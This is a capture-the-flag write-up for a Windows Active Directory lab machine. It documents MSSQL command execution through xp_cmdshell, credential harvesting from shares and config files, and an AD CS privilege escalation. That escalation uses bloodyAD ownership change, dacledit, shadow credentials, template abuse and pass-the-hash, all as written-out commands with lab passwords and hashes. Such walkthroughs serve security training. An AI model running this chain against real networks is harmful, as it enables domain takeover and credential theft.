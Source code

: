```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```

# ENUMERATION
---

## OPEN PORTS
---



| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |


| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn_http   |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

# RECONNAISSANCE
---

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](images/Pasted%20image%2020250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](images/Pasted%20image%2020250114171518.png)

We have two files, let's download them both and check the contents:

![](images/Pasted%20image%2020250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](images/Pasted%20image%2020250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

# EXPLOITATION
---

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](images/Pasted%20image%2020250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](images/Pasted%20image%2020250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](images/Pasted%20image%2020250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](images/Pasted%20image%2020250114174329.png)
![](images/Pasted%20image%2020250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](images/Pasted%20image%2020250114174929.png)

That's right, let's read the configuration file:

![](images/Pasted%20image%2020250114174959.png)


We got credentials for another user.
```


```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```


Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](images/Pasted%20image%2020250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:


![](images/Pasted%20image%2020250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](images/Pasted%20image%2020250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

# PRIVILEGE ESCALATION
---


For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```


So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)
Like that, we can read root flag:

![](images/Pasted%20image%2020250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```

